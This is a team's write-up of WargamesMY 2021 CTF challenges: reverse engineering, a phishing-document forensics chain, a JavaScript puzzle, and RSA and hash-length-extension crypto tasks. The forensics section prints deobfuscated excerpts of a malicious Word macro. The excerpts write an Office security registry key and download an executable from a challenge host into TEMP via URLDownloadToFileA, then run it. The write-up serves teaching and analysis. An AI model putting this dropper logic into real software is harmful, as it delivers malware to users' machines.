




# WargamesMY 2021 writeup by liudashendiao

For files and full scripts used in challenges, those who are interested may download it from https://drive.google.com/file/d/1MV-gkDcSz72XNs5qR9PGp7QYcv8uLnxe/view?usp=sharing (The link may be dead after several months after writing of this writeup, in that case you can try to raise issue, and we may/may not sent you the files depending on whether we still have them). The files provided here only includes the challenges solved by our team and third party tools are not included, for files of other challenges you may try to ask directly from WargamesMY or check out the write ups of other teams.

Among 29 flags, we managed to capture 13 of them.

| Flags                           |      |
| ------------------------------- | ---- |
| **pwn**                         |      |
| babypwn                         | -    |
| babypwn2.0                      | -    |
| **web**                         |      |
| mountain                        | -    |
| DBLess CMS                      | -    |
| WGMY WebService Part 1          | -    |
| WGMY WebService Part 2          | -    |
| **RE**                          |      |
| Capture The Flag                | /    |
| whack-an-emoji                  | -    |
| bendera3                        | /    |
| Flag Checker                    | -    |
| flagmaker                       | /    |
| Cookie                          | -    |
| ra(w)r                          | -    |
| Stack                           | -    |
| **forensic**                    |      |
| Forensic                        | /    |
| Hash of Document                | /    |
| Dropper Site                    | /    |
| Hash of Malware                 | /    |
| C2 Hostname                     | /    |
| API Used to Download Malware    | /    |
| XOR Key                         | /    |
| C2 Communication Encryption Key | -    |
| DGA Algorithms                  | -    |
| Empire Strike Back              | -    |
| **misc**                        |      |
| Corrupt                         | -    |
| sorok                           | /    |
| Try Your Luck                   | -    |
| **cryptography**                |      |
| easyrsa                         | /    |
| Hohoho                          | /    |

## Capture The Flag

This challenge gives a file named CTF.sb3, googled the file extension found out it is a Scratch program file. Upload the file to https://scratch.mit.edu/, its source code can be viewed directly. 



We can see that the flag is scrambled by using score%38 as index. So we wrote a python script to unscramble the flag. The unscrambled flag still doesn't look right, so we swapped every two characters of the flag for the final flag wgmy{78b13db324cd79174adbd089030d023c}.

```
# enc = "gdddbd0w2a3819y3d2390mcb}143748cb70{70"
# print(len(enc))
# score = 0
# flag = ""
# while True:
#     index = (score % 38)
#     flag = flag + enc[index]
#     score = score+ 1337
#     print(flag)
#     if len(flag) > 38*2:
#         break

enc = "gwym7{b831bd23c47d1947dadb8009030d32}c"
flag = ""
i=0
while i< len(enc):
    flag = flag + enc[i:i+2][::-1]
    i+=2

print(flag)
```

## Bendera3

Bendera3 challenge gives a file named bendera3 with no file extension. Inspecting using hex editor found out it is a vdex027 file.  Googling found a vdexExtractor on https://github.com/anestisb/vdexExtractor/pull/72/commits/942429d92ef8bb5de243858c41a6f114ea4ebd23. The support for vdex027 haven't been merged into master branch though. Thanks to Igor Eisberg's adding support for it, we were able to convert it into dex file.

Putting the dex file into jadx, we found the flag processing logic directly in main activity.

From code below we found if method "cF" returns true, means we got the flag.

```
public void onTextChanged(CharSequence charSequence, int i, int i2, int i3) {
                if (MainActivity.cF(editText.getText().toString())) {
                    Toast.makeText(MainActivity.this, "Correct! Submit it!!", 0).show();
                }
            }

```

```
public static byte[] hStB(String str) {
        int length = str.length();
        byte[] bArr = new byte[(length / 2)];
        for (int i = 0; i < length; i += 2) {
            bArr[i / 2] = (byte) ((Character.digit(str.charAt(i), 16) << 4) + Character.digit(str.charAt(i + 1), 16));
        }
        return bArr;
    }

    public static boolean cF(String str) {
        if (str.length() == 0) {
            return false;
        }
        if ((str.length() > 5 && !str.substring(0, 5).equals("wgmy{")) || str.charAt(str.length() - 1) != '}') {
            return false;
        }
        if (str.substring(5, str.length() - 1).equals(xx(wx, hStB(new StringBuilder("kxk1x4xxkx11O4TxkOc6xxb64Obxk1613xdxx1F11x9OT6Txd31xcOd1O1OOcO64").reverse().toString().replace("O", "0").replace("T", "7").replace("b", "8").replace("x", "5").replace("F", "f").replace("k", "e"))))) {
            return true;
        }
        return false;
    }

    private static String xx(char[] cArr, byte[] bArr) {
        StringBuilder sb = new StringBuilder();
        for (int i = 0; i < bArr.length; i++) {
            sb.append((char) (bArr[i] ^ cArr[i % cArr.length]));
        }
        return sb.toString();
    }

```

Further investigating the related methods, we found that the method "cF" checks for basic flag format wgmy{ ....} , the content of flag is compared with string returned by method "xx". Since there is no preprocessing to the input flag, we know method "xx" returns the plaintext flag. Copy and running the related methods' code will give the flag wgmy{2d1c0edbc8bbfa5be3117a3ed9e6d637}.

Reference: 

- https://github.com/skylot/jadx
-  https://github.com/anestisb/vdexExtractor/pull/72/commits/942429d92ef8bb5de243858c41a6f114ea4ebd23


## Flagmaker

Flagmaker challenge gave a file named "flagmaker" with no file extension, later found out to be a linux binary. Put the binary into RE tool to check its assembly code, we found that it seems to decrypt something before it creates a named pipe in /tmp/xxxx, where xxxx is random 4 digits, then it forks and execute "bash -c" reading from the named pipe, therefore we suspect that it is a packer to encrypt bash script. 

Further checking the strings inside the binary we found the author of program "louigi600", and his Github repo for the packer at https://github.com/louigi600/obash.

The README of the repo gave us insight to capture the decrypted bash script by monitoring file creation in /tmp, then dump the output of the named pipe before the forked process reads it.

```
#!/bin/bash

inotifywait -m /tmp -e create -e moved_to |
    while read dir action file; do
        echo "The file '$file' appeared in directory '$dir' via '$action'"
        # do something with the file
        cat /tmp/$file > /home/kali/Desktop/dump$file.txt
    done

```

The dumped decrypted bash script is still obfuscated with loooong variable name, real content split into multiple variables, as shown below. We decided to echo out the last two lines instead of let it to be "eval". The content was found to be still obfuscated by base64 encoding and reversed.

```
#!/bin/bash
#wgmy{fakeflag}

# omitted loooooong part above, left eval lines below, check out google drive link above for full content

IeUouJEbKQKmvoXIAEgOjPnpXuqBZEcZwIvuLnUoTkMvDVcMTmPSXQEohwjCcFNrMyRbTwFpYBolIKWqhWcCGfJvbPCqJktyVBra=$(eval "$iHPaTqJxTbxmkvPCmSsRHNuaCJCdxMextIRBsGGkiFJVtGtdgOEHWMeiaYjrtcTPYpNexWavqMMnIogjAskkQHwaLaDFBrtlaAXQ$NXlVhgwGFHtNwpZvfCeKvmVEInIWdPLfkSrkHNQEVXhoaJdjzruCAljtqtjotgsNgaBRltBTOrKwdNpbEymKnsQZophyKwsSuGEw$BuGOClwGIsKErdKwgkfaJIUoTMqBgAEuyYykPYSkGUdiqkbuWSmKlhuWoZEeVLPaeloDYZHrBNTpxkIfRokkwIoZhCXAIjlebtXg$nANAiRZMluJPwrDmJXVJxDpkdIyYDtNidZfpAkKYtbatgUZtKMAhWlLPUdDtIvtGBgpvoqXgkcOZAHyqKpgegLEVOIxsTPylqOyX$YmXmADNUJnCCFYFtGEqxeANClYTGTptBhQWgmwtyYECLOrDrcFisFsJNPmxXttExEZWyqbKTayOAMyLBWimxvLDsbgrDopkBCFsX$tXdNfNAvEfMSRiflVLsssXYnHZvPEYuEbDIfKkEvuFZJspXSSSSmhrGLMbyRTrzoousnzieMNCUatRIOZUutfMYdBFxSiAtLFAhc$NXlVhgwGFHtNwpZvfCeKvmVEInIWdPLfkSrkHNQEVXhoaJdjzruCAljtqtjotgsNgaBRltBTOrKwdNpbEymKnsQZophyKwsSuGEw$jBQPrACikOnFetquFhFuJADpkJYDkOcRxnmdGZuVPXzhNbEFrRDlQiaexmmQKIVIxdwQBuJXsVnMVLehLPnjPRqKiREDVbTcbIKt$iHPaTqJxTbxmkvPCmSsRHNuaCJCdxMextIRBsGGkiFJVtGtdgOEHWMeiaYjrtcTPYpNexWavqMMnIogjAskkQHwaLaDFBrtlaAXQ$HXgOinAkfKiOLyRTwIuZntVONhuTspOunIKyxzerUgEFfsZNxAmJOnYsQsAMsJRJYytBTzjSccTmdEzrEMjkHziSsoJqGidicise$PqUfxGjNOXvQMGyONWnVzZQFaLjIfsJIUXuZLwZhiwzRedlbTFKgoldexofwTgtoqztvCXrQlYlEwtXptohITEhgNjJxcrdgrcvu$eRMfCTdAUETFQotxXrGeVAecLRiexuvbHkOBrYnJODGzCcNWdXsECdcpGAyHnHEGXQETRxuFJnchBofIcyKgxqpClTfOzGgEOJVZ$NXlVhgwGFHtNwpZvfCeKvmVEInIWdPLfkSrkHNQEVXhoaJdjzruCAljtqtjotgsNgaBRltBTOrKwdNpbEymKnsQZophyKwsSuGEw$LCwufSJHfbbfcCoHnWnuInsZzxQFtmmYvUseWTQesiMFfkxGobcRSoNOJciyXtbapcorJzfZVuCqCoGAyUbaqYopmOkslvxZYsFD$nANAiRZMluJPwrDmJXVJxDpkdIyYDtNidZfpAkKYtbatgUZtKMAhWlLPUdDtIvtGBgpvoqXgkcOZAHyqKpgegLEVOIxsTPylqOyX$QowYPStjYiAFkoRypHbbxojkFUYpCeRsMRtzfOkDqbhmjoMyYzsqMErIqjdkWkEvMLrvRxirLYoDOFsQHZWBpKmVAAsaoZVtisdP$ZeBDEsGcNquygsskARcDEaXtGwRDWNFGNrOEpeoQOOnUDSAYeUfJAsNbPTuWBHaPJAUYOBUnZdmuUgHxvmzZTXdTNZjptKQihfCI$PqUfxGjNOXvQMGyONWnVzZQFaLjIfsJIUXuZLwZhiwzRedlbTFKgoldexofwTgtoqztvCXrQlYlEwtXptohITEhgNjJxcrdgrcvu");eval "$OqgaqMOsTruvyVZJTgiWVDClvZqNKXAjQKsAhghwVlJJOfmuKJzbfvCGHeVBxepPtqEtQOYEmBDNFgzRtgzYRHbrHOeuJTLqBDcC$IeUouJEbKQKmvoXIAEgOjPnpXuqBZEcZwIvuLnUoTkMvDVcMTmPSXQEohwjCcFNrMyRbTwFpYBolIKWqhWcCGfJvbPCqJktyVBra$iHPaTqJxTbxmkvPCmSsRHNuaCJCdxMextIRBsGGkiFJVtGtdgOEHWMeiaYjrtcTPYpNexWavqMMnIogjAskkQHwaLaDFBrtlaAXQ$nANAiRZMluJPwrDmJXVJxDpkdIyYDtNidZfpAkKYtbatgUZtKMAhWlLPUdDtIvtGBgpvoqXgkcOZAHyqKpgegLEVOIxsTPylqOyX"
```

Base64 encoded and reversed

```
# also not full content
echo ==gCwACdphXZKoyZul2dhJHZgg3bi1ycgUGa0BSZ29mcw1Wag0CIgAyIKkSPgUmep1Wa0B3bg0CIgAyIKMnbvl2cyVmdu92YgUGa0BCbsFGIy9mZgkXY3BiclRHdlJGIhBCd19GIlJXdnlmZg8GZvRHItACIgMiC68ERPRFIjowIKEzNw8SUBZEazFmQvcmcv5SZnRWZs92b35Sarl2d512LvoDc0RHag02byZGIpgicoNGImASKoQmcvBSLgACIjogOTVEVP5EIjowIKQzQS9Sarl2dv4WZvEWakVGcptWa39yZy9mLhlGZl1Warl2duUmc1NWZz9yL6MHc0RHagMiCjoANwACclNFI0EDMykgOkVWamlGZv1GIjoQMxAjMtUDMtUTMJoDZlRXYlJ3YgMiCoNnL0MmcJkgOlxWamByIKMyIjMyIjMyIjMyIjMyIjMyIjMyIjMyIjMyIjMyIjMyIjMyIjMyIjMyIjMyIjMyIjMyIjMyIjMyIjMyIjMyIjMyIjMyIjMyIjMyIjMyIjMyIKg2chJ2LulmYvEyI | rev |base64 -d


```

Finally we got the final script here, by decrypting the ciphertext "DD38593CEC368BE7DFC709E59A4878F7C462D6BD6E128515B39CCE1E94012814C056821E976D" using RC4 key "w4rgames.my" found in the script , we got the flag wgmy{57da7e9e691d02a99b6116be6156927b}.

```
#!/bin/bash

# omitted for brevity (RC4 enc/dec bash script here)

ASCIIKEY="w4rgames.my"
KEYLENGTH=${#ASCIIKEY}

# omitted for brevity

if (( ${ENCRYPT} ))
then
  # some error checking
  if [ $[ ${#CIPHERTEXT} % 2 ] -ne 0 ]
  then
    echo "error: invalid ciphertext!" 1>&2
  fi
  # print the end result
  echo -en "\nciphertext (hex):\t" 1>&2
  echo -e "${CIPHERTEXT^^}"
  echo -en "\nplaintext:\t\t" 1>&2
  echo -e "${PLAINTEXT}"
  if [ ${CIPHERTEXT^^} == "DD38593CEC368BE7DFC709E59A4878F7C462D6BD6E128515B39CCE1E94012814C056821E976D" ]
  then
    printf "Flag has been launch!!!! Submit your flag\n\n"
  else
    printf "Flag launching sequence failed!\n\n"
  fi
else
  # decrypted
  echo -en "\nplaintext:\t" 1>&2
  echo -en "${PLAINTEXT}"
  #printf "%s" ${PLAINTEXT}
  echo -n $'\n' 1>&2
fi

exit 0

```



Reference: 

- https://unix.stackexchange.com/questions/24952/script-to-monitor-folder-for-new-files
- https://github.com/louigi600/obashrc4
- https://gist.github.com/pyllyukko/48cee9f4fc7412e1ca4d


## Forensic

Download the zip file decrypt with password provided "infected", an eml file provided inside and compute the SHA256 hash of eml file as flag. 

wgmy{f4053a1aca84638b565c5f941a21b9484772520d7536e31ca41de0deaee14e2c}




## Hash of Document

Open the eml file using thunderbird or support program, extract the email attachment, which is a doc file with name "CV_Abdul_Manab.doc". Compute its SHA1 hash for flag.

wgmy{706301fc19042ffcab697775c30fe7dd9db4c5a6}


## Dropper Site

By using olevba, the macros in the doc file is extracted. Looking through the code, we found the macro is obfuscated by mainly three patterns:

- Split value assignment

- Base64 encoded strings

- XOR encrypted strings

  Example of macro is shown below

```
Private Sub PnenIkmeUitrv(EoeoCi_aBma As String, EchnUaupAyapCbslNo As Integer)
Dim UtkeNhciUdgaTosl As Object
Dim Eg_nTklcUiuoFt As String
Dim AlnwBfawEo As String
AlnwBfawEo = OtrpOlvrHtgdOt("57536372")
AlnwBfawEo = AlnwBfawEo & OtrpOlvrHtgdOt("6970") & OtrpOlvrHtgdOt("742e53")
AlnwBfawEo = AlnwBfawEo & OtrpOlvrHtgdOt("68656c6c")
Set UtkeNhciUdgaTosl = CreateObject(AlnwBfawEo)
Eg_nTklcUiuoFt = OtrpOlvrHtgdOt("484b45595f43555252454e545f555345525c536f6674776172655c4d6963726f736f66745c4f66666963") & OtrpOlvrHtgdOt("655c5c") & EoeoCi_aBma & OtrpOlvrHtgdOt("5c457863656c5c53656375726974795c41636365") & OtrpOlvrHtgdOt("737356424f4d")
UtkeNhciUdgaTosl.RegWrite Eg_nTklcUiuoFt, EchnUaupAyapCbslNo, OtrpOlvrHtgdOt("524547") & OtrpOlvrHtgdOt("5f44574f5244")
End Sub
```

To make the script easier to read, we wrote a Python script to replace the script with decrypted strings. We followed the string decryption function such as "OtrpOlvrHtgdOt" in the snippet above, to get the XOR key. 

```
import re
import binascii

data = None
with open('decoded_b64_deobs2.txt', 'r') as file:
    data = file.read()

# print(data)
def sub_eval(match):
    return '"'+bytes.fromhex(match.group(1)).decode('utf-8') + '"'


def sub_eval2(match):
    ret = ""
    if len(match.groups())<2:
        print('warning: weird here')
    for i in range(len(match.groups())):
        ret += match.group(i+1)
    return '"'+ ret + '"'

def sub_eval3(match):
    enc_bytes = binascii.a2b_base64(match.group(1).encode())
    key = "wghykqpqxbpbusefktfw"
    ret = ""
    for i in range(len(enc_bytes)):
        ret += chr(enc_bytes[i] ^ ord(key[i % len(key)]))
    return '"'+ret+'"'

# data = "OaioToliToi(\"JB4bDQ4cJBgVBy8OHgA=\")"

# data = re.sub(r'CtdcIpebAkelGi\("([0-9a-fA-F]+)"\)', sub_eval, data)
data = re.sub(r'"(.+)" & "(.+)"', sub_eval2, data)
data = re.sub(r'OaioToliToi\("([0-9a-zA-Z=+/]+)"\)', sub_eval3, data)

print(data)

with open('decoded_b64_deobs3.txt','w') as file2:
    file2.write(data)
```

After a while replacing the strings, we finally saw the key function, which contains information of real malware to be dropped.

```
Sub IdgiRpauLtlgRgldr()
Dim CiueBonoKnaiEng As String
Dim SvmbOnrpTomnOgwe As String
CiueBonoKnaiEng = "http://mbnxosod7oj3lm5nky1u.for.wargames.my/cmd64.exe"
SvmbOnrpTomnOgwe = "dsye.exe"
SvmbOnrpTomnOgwe = Environ("TEMP") & "\" & SvmbOnrpTomnOgwe
PfrpNlunCmrdPog CiueBonoKnaiEng, SvmbOnrpTomnOgwe, "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)"
TrsiEbveOvgit SvmbOnrpTomnOgwe
End Sub
```

Compute SHA1 of "http://mbnxosod7oj3lm5nky1u.for.wargames.my/cmd64.exe" for flag wgmy{e88f4d8ad2551e5c91c742d53229944abd30c5ea}


## Hash of Malware

Downloading the malware exe file from the URL and compute SHA1 for the file gives flag {094832f61127bbaaf9857d2e3ca6b3ffd3688e31}


## C2 Hostname

Upload the file to VirusTotal and check its analysis report for the network activity, the malware did DNS resolution to wbgfcln.for.wargames.my, which is the C2 hostname. Compute SHA1 of hostname for flag wgmy{7c7b739ef14c9f15f41ac73c8301eccd4de8ca9a}

Reference: https://www.virustotal.com/gui/file/a01b7bc45297b6e6ae587d28cce5bd0fcc68a14504b0cac0bb8dfb0385c67712/behavior/Microsoft%20Sysinternals


## API Used to Download Malware

Continue reading the processed macro code, we found the API URLDownloadToFileA being referenced. Feeling it is very probable that it is the API used, we computed SHA1 of lowercased "URLDownloadToFileA" to get flag wgmy{3ffa40eef60fb5ae5b10c2b975d51e5977ca2818}.

```
Sub PmepEais(ByVal OewaOgl As String, ByVal AomoLe_sf As String, NinsTais As String)
Dim YrisLsteClroYoeat As LongPtr
Dim GaleTdrca as LongPtr
GaleTdrca = 0
YrisLsteClroYoeat = LecnEndaUroeNa("urlmon","URLDownloadToFileA", vbLong, GaleTdrca, OewaOgl, AomoLe_sf, GaleTdrca, GaleTdrca)
End Sub
```


## XOR Key

In this challenge, we are required to find the XOR key used by macro to encrypt its string. The XOR key was found during the process of deobfuscating the macro and it is "wghykqpqxbpbusefktfw" (refer to the Python script used above). 

Compute SHA1 of ket to get flag wgmy{23a00e2c2bd7e0b493384ea50cbf3e113ee0a1ba}


## Extra note on forensic challenges didn't complete

After throwing the dropped exe file into RE tool, we found out that it is actually Python compiled into exe using Py2exe (https://github.com/py2exe/py2exe). However, we spent hours on trying to extract and decompile the Python script from the exe. We used Resource Hacker (http://www.angusj.com/resourcehacker/) to extract out a file named "PYTHONSCRIPT1". We tried to used tools like unpy2exe, uncompyle6 with no success. 

After reading writeup of "unlimitet" https://github.com/unlimitet/WargamesMY/blob/main/Forensic%20Writeup.pdf, maybe we should take a step back and think for other ways during stucked.


## sorok

Viewing the page's source code, we found that function "go" is executed in response to user's input.

Therefore, we tried to view source code of function "go" using following technique



Noticing that it is generating hash of something, we run the expression again in console to get the hash, and turns out it is actually the flag. This was the fastest challenge we solved in contest. After contest, checking the page source code again with notepad during writing this we found out it was actually followed by long obfuscated script with unprintable characters, we didn't saw it in browser so we went with the route shown above, guess we were lucky, or else we might have choose to deobfuscate the script.

The flag is wgmy{487f7b22f68312d2c1bbc93b1aea445b}

## easyrsa

In this challenge, we were given a script which contains the way the flag had been encrypted.

```
#!/usr/bin/env python3
from Crypto.Util.number import *
from secret import flag

# Generate public key
p = getStrongPrime(1024)
q = getStrongPrime(1024)
n = p*q
e = 0x10001
# Encrypt the flag
m = bytes_to_long(flag)
c = pow(m, e, n)

print(f"n = {n}")
print(f"c = {c}")
print(f"hint = {p*q-p-q+1}")
# with long n,c, hint output in the comment given with this script, omitted for brevity 
```

From the code and rsa specification, we can derive the following equations


```
n = p*q
hint =  p*q-p-q + 1
p+q = n+1-hint 

Define c_1 = n+1-hint

p+q = c_1
p   = c_1 -q
n   = p*q
n   = (c_1 -q ) * (q)
n   = -q^2 + q*c_1

q^2 - q*c_1 + n = 0

Solve quadratic equation above for q
Then we can compute p
p = c_1 - q

With both p and q, compute private key d as follow
d = e^-1 mod λ(n)

Finally the flag can be decrypted
m = c^d mod n
```

I wrote the following Python to do the computation

```
import cmath
# import gmpy2

n = 18304313499627278872497347106781088765844971752924494936581137294399251598122054491970352624997804891597368572151975199012875361892862378834285683652903007044947055619342684830043887388520198889986897901082447405903406407594879218477486010303949150584062013743002102223027695933305578474279402543515765336412208006859054393534570841203144021034140207743659756456355176186058669431050817944354369543943180071004478988621167578794309738088175437410128123233192513558339607610423092758817077116782370405814263505215749482674852889252017589696530422547393123978624883889069727557585210879305319883301371816205528090434407
c = 3265951707172242709727472739386873494703249912285505265371146393196030372413781803930164663149372228439333733865082330011642704913091249653497200378094433504467567333190234739925103462552251607608028955840038227014596825040840010571742127988310589087523302675740007385714132298726983039469798322204553974625219330303100743678921966397869657279014124458772194638540183755564805923024931908465309561190023476921354145819156231466029924640305856472832006337877361608232560677427859686638842493170149297308146210190273895689592042634336709605961185187133364422992915741362901814469213680894412670787153775867317785600107
hint = 18304313499627278872497347106781088765844971752924494936581137294399251598122054491970352624997804891597368572151975199012875361892862378834285683652903007044947055619342684830043887388520198889986897901082447405903406407594879218477486010303949150584062013743002102223027695933305578474279402543515765336411937188290852419206090437467585625464287266017790518369458197274062030222343619328717682343452270958441659650865431008054752337347886117365637267521107136683063583439472152237290665940293045834312267414723015783277860478421527455012050450676028820776344490403116318288525984705526824558715069751252595489120600


c_1 = n+1-hint

# solve quadratic equation
a = 1
b = -1 * c_1
c = n

# compute determinant, however the d is too large to compute square root so we used Google Colab to compute the square root in following script

# determinant d here not to be confused with rsa private key d
d = (b**2) - (4*a*c)
print(d)
d_sqrt = 11200128769719809540782354899789830675060993689590666197066014819140176272920634892803088848693051213146964627434378152310209224362518980199212677327071956736056337031280180854163320958459466454467584057300716268929683371642961621225387405975817345900682301023752594518127296878341455548877166357006592936394

# we found sol1 and sol2 are actually same, which is prime q
sol1 = (-b-d_sqrt)/(2*a)
sol2 = (-b+-d_sqrt)/(2*a)

p = c_1 - sol1
print(p*sol1)
print(n)
# print(n.bit_length())

"""
decrypted m 

15201892040113668110176552750540265633973483061314009950170570848709926719522101026637636477
"""
```


```

!apt install libmpc-dev
!pip install gmpy2

import gmpy2
# we got determinant d from previous script (not to be confused with rsa private key d), and compute its square root
n=gmpy2.mpz(125442884458305374453352389536409693836459659924035995292216835952257706196276729173066427550024560455751022622536897338077952562327095677441591464462535371464934264568489037210992506934153274895412074330269696629820093264469910263421780917197913129217744749601341391017360067282457187572957505761067246201440618300026408325313758380651622838506888611172237836141417026958719547838153509041229275730013050811513422791773063059418650152450847593274940927706462222998242665312771396600819439162304147303096791872216052468762777621749189730466834592501508771819056987025446531630738035146902480821358860126295329723236)
gmpy2.get_context().precision=2048
d_sqrt=gmpy2.sqrt(n)
print(d_sqrt)

n = 18304313499627278872497347106781088765844971752924494936581137294399251598122054491970352624997804891597368572151975199012875361892862378834285683652903007044947055619342684830043887388520198889986897901082447405903406407594879218477486010303949150584062013743002102223027695933305578474279402543515765336412208006859054393534570841203144021034140207743659756456355176186058669431050817944354369543943180071004478988621167578794309738088175437410128123233192513558339607610423092758817077116782370405814263505215749482674852889252017589696530422547393123978624883889069727557585210879305319883301371816205528090434407
c = 3265951707172242709727472739386873494703249912285505265371146393196030372413781803930164663149372228439333733865082330011642704913091249653497200378094433504467567333190234739925103462552251607608028955840038227014596825040840010571742127988310589087523302675740007385714132298726983039469798322204553974625219330303100743678921966397869657279014124458772194638540183755564805923024931908465309561190023476921354145819156231466029924640305856472832006337877361608232560677427859686638842493170149297308146210190273895689592042634336709605961185187133364422992915741362901814469213680894412670787153775867317785600107
hint = 18304313499627278872497347106781088765844971752924494936581137294399251598122054491970352624997804891597368572151975199012875361892862378834285683652903007044947055619342684830043887388520198889986897901082447405903406407594879218477486010303949150584062013743002102223027695933305578474279402543515765336411937188290852419206090437467585625464287266017790518369458197274062030222343619328717682343452270958441659650865431008054752337347886117365637267521107136683063583439472152237290665940293045834312267414723015783277860478421527455012050450676028820776344490403116318288525984705526824558715069751252595489120600

c_1 = n+1-hint
a = 1
b = -1 * c_1
c = n

# compute solution of quadratic equation

sol1 = (-b-d_sqrt)/(2*a)
sol2 = (-b+-d_sqrt)/(2*a)
print(sol1)
print(sol2)

# since sol1 and sol2 are same, we used sol1 here as prime q

p = c_1 - sol1
q = sol1

print(p*sol1)
print(n)

# y = pow(65537, -1, (p-1)*(q-1))
def egcd(a, b):
    if a == 0:
        return (b, 0, 1)
    else:
        g, y, x = egcd(b % a, a)
        return (g, x - (b // a) * y, y)
def modinv(a, m):
    g, x, y = egcd(a, m)
    if g != 1:
        raise Exception('modular inverse does not exist')
    else:
        return x % m

# compute private key d

d = modinv(65537, (p-1)*(q-1))
print(d)

c = 3265951707172242709727472739386873494703249912285505265371146393196030372413781803930164663149372228439333733865082330011642704913091249653497200378094433504467567333190234739925103462552251607608028955840038227014596825040840010571742127988310589087523302675740007385714132298726983039469798322204553974625219330303100743678921966397869657279014124458772194638540183755564805923024931908465309561190023476921354145819156231466029924640305856472832006337877361608232560677427859686638842493170149297308146210190273895689592042634336709605961185187133364422992915741362901814469213680894412670787153775867317785600107
print(c)
print(d)
print(n)

# decrypt flag

m = pow(int(c), int(d), int(n))
print(m)

!pip install pycrypto

from Crypto.Util.number import *
print(long_to_bytes(m).decode())


```

So the flag is wgmy{227d1562df0d940d94d75b0512f4bc6c}


## Hohoho

The challenge gave a source code for the service of the challenge as below:

```
#!/usr/bin/env python3
import hashlib
import os

SECRET = os.urandom(8)

class User:
	def __init__(self, name, token):
		self.name = name
		self.mac = token

	def verifyToken(self):
		realmac = hashlib.md5(SECRET + self.name.encode(errors="surrogateescape")).hexdigest()
		return self.mac == realmac

def generateToken(name):
	mac = hashlib.md5(SECRET + name.encode(errors="surrogateescape")).hexdigest()
	return mac

def printMenu():
	print("1. Register")
	print("2. Login")
	print("3. Make a wish")
	print("4. Wishlist (Santa Only)")
	print("5. Exit")

def main():
	print("Want to make a wish for this Christmas? Submit here and we will tell Santa!!\n")
	user = None
	while(1):
		printMenu()
		try:
			option = int(input("Enter option: "))
			if option == 1:
				name = str(input("Enter your name: "))
				if "Santa" in name:
					print("Cannot register as Santa!\n")
					continue
				print(f"Use this token to login: {generateToken(name)}\n")
				
			elif option == 2:
				name = input("Enter your name: ")
				mac = input("Enter your token: ")
				user = User(name, mac)
				if user.verifyToken():
					print(f"Login successfully as {user.name}")
					print("Now you can make a wish!\n")
				else:
					print("Ho Ho Ho! No cheating!")
					break
			elif option == 3:
				if user:
					wish = input("Enter your wish: ")
					open("wishes.txt","a").write(f"{user.name}: {wish}\n")
					print("Your wish has recorded! Santa will look for it!\n")
				else:
					print("You have not login yet!\n")

			elif option == 4:
				if user and "Santa" in user.name:
					wishes = open("wishes.txt","r").read()
					print("Wishes:")
					print(wishes)
				else:
					print("Only Santa is allow to access!\n")
			elif option == 5:
				print("Bye!!")
				break
			else:
				print("Invalid choice!\n")
		except:
			print("HACKER ALERT!! Aborting..")
			break

if __name__ == "__main__":
	main()
```

From the code we can see the verification token is generated by prefixing SECRET with username then compute their MD5 hash.

Since the SECRET is prefixed, and token ends with username which is controllable by user, we can use hash length extension attack. Basically it means with hash generated from the service, we can append any data we want behind the original text and generate a valid hash for the appended text without knowing the SECRET value.

